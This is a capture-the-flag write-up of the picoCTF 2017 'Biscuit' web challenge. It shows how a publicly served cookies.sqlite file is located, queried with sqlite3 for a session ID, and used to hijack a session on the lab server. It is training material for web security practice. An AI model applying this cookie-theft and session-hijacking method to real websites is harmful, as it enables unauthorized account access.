<H1>Biscuit</H1>
<B>Your friend has a personal website. Fortunately for you, he is a bit of a noob when it comes to hosting a website. Can you find out what he is hiding? Website.</B>

>Hints:
>
>Viewing the source of the website is usually a good start.

Clicking the link to the website brings us to http://shell2017.picoctf.com:19997/. We're presented with a webpage with "Access Denied" and ginger-breadman background.

![](../../resources/2b3a6353873da53d91df2ea0239da5f4.png)

Not really anything we can do here, so lets inspect the source.

```html
<html>

<!-- Storing stuff in the same directory as your web server doesn't seem like a good idea -->
<!-- Thankfully, we use a hidden one that is super PRIVATE, to protect our cookies.sqlite file -->
<style>
body{
	background-image: url("private/image.png");
}
</style>

<body >

<div style='background:white;margin: auto;border: 1px solid red;width: 600px; margin-top: 20%;' >
<center>
<form style="font-size: 40px; ">
Access Denied</form>
</center>
</div>

</body>

</html>
```

In the comments we can see that the webpage developer has stored the site's cookies.sqlite file on the webserver. Lets see if we can access it:

```http
http://shell2017.picoctf.com:19997/cookies.sqlite
```

We are given a "Not Found" error, so no luck here. Apparently the cookie file is hidden in a super PRIVATE location, so lets try:

```http
http://shell2017.picoctf.com:19997/private/cookies.sqlite
```

Bingo. We have the cookies.sqlite file. So what can we do with this thing? Cookies often store session IDs so perhaps we can pull one out and hijack the session.

We begin with looking at the data stored in the cookie file:

```bash
sqlite3 cookies.sqlite
```
With a bit of Googling, we find that cookies.sqlite files are often generated by Mozilla Firefox and that it should contain a table called "moz_cookies". We can confirm this by running:

```sql
.tables
```
`moz_cookies`

Lets try reading this table:

```sql
SELECT * FROM moz_cookies;
```

We're presented with the following information.
`
1|localhost|0|0|ID|F3MAqpWxIvESiUNLHsflVd|localhost|/|1489365457|1489279130600290|1489279057101857|0|0
`

But what do these values relate to? We can determine the table schema by running:

```sql
.schema moz_cookies
```
`CREATE TABLE moz_cookies (id INTEGER PRIMARY KEY, baseDomain TEXT, appId INTEGER DEFAULT 0, inBrowserElement INTEGER DEFAULT 0, name TEXT, value TEXT, host TEXT, path TEXT, expiry INTEGER, lastAccessed INTEGER, creationTime INTEGER, isSecure INTEGER, isHttpOnly INTEGER, CONSTRAINT moz_uniqueid UNIQUE (name, host, path, appId, inBrowserElement));
CREATE INDEX moz_basedomain ON moz_cookies (baseDomain, appId, inBrowserElement);
`

Turns out the only field of interest to us is the "value" field, this should be the session ID. So now that we (assumingly) have the session ID our next step is to use it to hijack a session. We can use a Chrome extension: EditThisCookie (http://www.editthiscookie.com/), to do it for us. So lets load up the website again and insert this value in:

![](../../resources/7ae420517ac9e1d8d67836477f77191f.png)

Now we just have to refresh the page to get in.

![](../../resources/f55a374f0aa2b9f7cd088fb070070ce5.png)

We now have our flag.